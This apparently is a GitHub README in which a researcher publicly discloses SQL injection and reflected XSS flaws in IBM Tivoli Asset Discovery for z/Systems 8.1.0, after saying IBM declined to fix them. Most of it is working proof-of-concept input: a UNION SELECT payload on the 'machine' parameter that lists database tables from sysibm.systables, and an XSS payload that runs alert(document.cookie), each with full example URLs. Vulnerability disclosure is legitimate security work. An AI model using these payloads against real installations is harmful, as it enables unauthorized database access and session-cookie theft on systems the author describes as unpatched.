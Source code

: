 # IBMZseriesHacks


I responsibly disclosed these issues to IBM on hackerOne, they ignored me, told me they are not going to fix it, and basically told me to f#ck off.. So I'm posting them here

### SQL Injection on Tivoli Asset Discovery for z/Systems version 8.1.0:
I discovered that the many pages of IBM Tivoli Asset Discovery are vulnerable to SQL injection.
<br>
POC on 'lpar_resources' page:
<br>
<br>
Detection:
```
http://example.com/asset/lpar_resources?monthfrom=&monthto=&machine=x%2527)%253B+--&repository=repo&outfmt=
```
Payload on the 'machine' parameter:
```
x')+union+select+0,creator,dbname,name,'0','0','0','0','0','0','0','0','0','0','0','0','0','0','0','2018-08-01','0'+from+sysibm.systables;+--
```

### Reflected XSS on Tivoli Asset Discovery for z/Systems version 8.1.0:
Like the SQL Injection, this occurs on many pages and many parameters in the application.
<br>
A POC on 'lpar_resources' page:
<br>
<br>
Payload:
```
%22%3Cimg+src=1+onerror=alert(document.cookie)%3E
```
In the full URL:
```
http://example.com/disc/product_library_usage?monthfrom=&monthto=&system=&vendor=&prodrel=&repository=repo&outfmt=&library=2%22%3Cimg+src=1+onerror=alert(document.cookie)%3E&library_casei=&volume=&showoption=off&exclunknown=off&outlimit=1000
```
